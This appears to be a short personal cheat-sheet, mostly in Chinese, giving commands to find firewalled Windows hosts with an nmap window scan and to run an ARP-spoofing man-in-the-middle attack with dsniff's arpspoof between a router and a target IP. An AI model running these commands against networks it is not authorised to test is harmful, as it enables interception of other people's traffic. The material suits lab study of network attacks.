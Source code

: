 nmap掃出windows host(預設參數掃不出 有防火牆)
> nmap -sW 192.168.0.0/24

arp spoofing 
> sudo apt install dsniff

安裝完之後
> arpspoof -i eth0 192.168.0.1 192.168.0.5

(arpspoof -i <網卡> <router-ip> <target-ip>)
